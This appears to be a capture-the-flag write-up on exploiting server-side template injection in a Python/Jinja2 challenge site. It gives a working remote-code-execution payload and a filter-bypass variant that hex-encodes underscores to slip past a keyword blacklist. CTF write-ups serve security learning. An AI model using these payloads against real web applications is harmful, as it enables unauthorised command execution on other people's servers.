




Start the server, we see the following page



We explore what kind of server is behind, and find the website is using python.



For python, we can try server sided template injection. To see whether there is a vulnerability, we try 

`{{7*7}}` as our input. Interestingly, the webpage returns 49. This means we should be able to inject our code. 

We try the following basic injection and want to get a RCE

`{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`

However, we get 



It seems that the website has certain kind of keyword blacklist. 

Searching online for blacklist bypass, I find this payload

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
``` 
from https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

and it works!



In particular, the payload encodes "_" into hexdecimal \x5f for bypassing filter. 

The rest part is standard: just replace id with other linux command, the flag is located in `/challenge` folder. 